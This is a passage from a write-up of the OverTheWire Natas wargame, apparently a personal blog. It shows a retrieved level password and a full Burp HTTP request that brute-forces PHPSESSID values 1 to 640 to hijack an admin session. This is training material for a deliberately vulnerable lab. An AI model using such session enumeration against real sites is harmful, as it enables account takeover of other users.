 Running this on repeater password for user natas18 was retrieved

natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

### lvl18-19

![/assets/images/natas/Untitled.png](/assets/images/natas/un.png)

here it checks if there is admin in the SESSION. if there isnot it sets the value to 0. so we have to find a session where the value of admin is already set. ie admin session

![/assets/images/natas/Untitled%201.png](/assets/images/natas/Untitled%201.png)

and as the maxid is from 1 to 640, we change our phpsessionid to 1 to 640 in the burp repeater and see if we get the admin session

```html
POST /index.php?debug=1 HTTP/1.1
Host: natas18.natas.labs.overthewire.org
Content-Length: 42
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Origin: http://natas18.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas18.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: __utma=176859643.472868426.1590939308.1591176859.1593693887.3; __utmc=176859643; __utmz=176859643.1593693887.3.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); 
**PHPSESSID=§1§;**
Connection: close

username=admin&password=admin
```
